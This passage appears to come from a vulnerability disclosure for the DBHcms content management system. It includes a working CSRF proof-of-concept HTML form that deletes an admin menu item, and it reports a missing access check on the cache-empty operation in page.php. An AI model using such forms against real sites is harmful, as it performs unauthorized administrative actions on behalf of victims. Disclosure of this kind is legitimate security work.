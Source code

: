 
## [12]


first login as admin user, then visit http://ip:port/csrf.html and click Submit request

Warning: you should add some menu for this test by visit `http://localhost:8089/index.php?dbhcms_pid=-81` and `deletemenu`'s value is unstable.

csrf.html

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8089/index.php">
      <input type="hidden" name="dbhcms_pid" value="-80" />
      <input type="hidden" name="deletemenu" value="9" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

## [13]

first login as admin user, then visit http://localhost:8089/index.php?dbhcms_pid=-30 to enable `cacheEnabled`,then logout for unprivliged operate test.

![](images/2019-07-25-16-43-27.png)

There's no access control at line 175 of dbhcms\page.php for cache empty operate.

![](images/2019-07-25-16-47-02.png)

